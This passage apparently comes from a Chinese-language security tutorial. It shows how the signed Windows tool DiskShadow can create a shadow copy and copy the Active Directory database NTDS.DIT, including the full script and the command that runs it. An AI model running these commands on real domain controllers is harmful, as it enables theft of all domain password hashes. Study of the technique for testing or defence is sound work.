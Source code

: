 ### diskshadow

DiskShadow 是 Microsoft 签名的二进制文件，用于协助管理员执行与卷复制服务（VSS）相关的操作。最初 bohops 在他的博客中写到了这个二进制文件。这个二进制文件有两个交互式和脚本模式，因此可以使用一个脚本文件，它将包含自动执行 NTDS.DIT 提取过程所需的所有命令。脚本文件可以包含以下行，以便创建新的卷影副本，装入新驱动器，执行复制命令并删除卷影副本，在使用时需要注意一点，DiskShadow 二进制文件需要从 C\\Windows\\System32 路径执行，如果从另一个路径调用它，脚本将无法正确执行：

```plain
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\ntds.dit
delete shadows all
reset
```

在 cmd 下执行以下命令：

```plain
diskshadow.exe /s c:\diskshadow.txt
```

[![](assets/1706090550-9d338a59759aa7e057f0a6e959a56022.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124095942-3d568cf6-ba5c-1.png)  
之后查看 c 盘可以看到成功复制文件：
